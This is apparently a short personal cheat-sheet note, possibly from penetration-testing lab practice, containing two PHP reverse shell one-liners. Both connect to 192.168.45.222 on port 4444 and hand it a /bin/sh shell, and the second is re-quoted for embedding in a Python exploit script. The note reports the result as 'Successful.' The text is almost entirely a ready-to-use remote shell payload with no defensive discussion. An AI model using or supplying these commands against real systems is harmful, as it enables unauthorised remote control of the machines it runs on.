


### PHP one Liner
```PHP
php -r '$sock=fsockopen("192.168.45.222",4444);shell_exec("/bin/sh <&3 >&3 2>&3");'
```
When used with python exploit throws multiple quoting errors. So use below if same situation arises.
```PHP
'php -r '\''$sock=fsockopen("192.168.45.222",4444);exec("/bin/sh -i <&3 >&3 2>&3");'\'''
```

Successful.

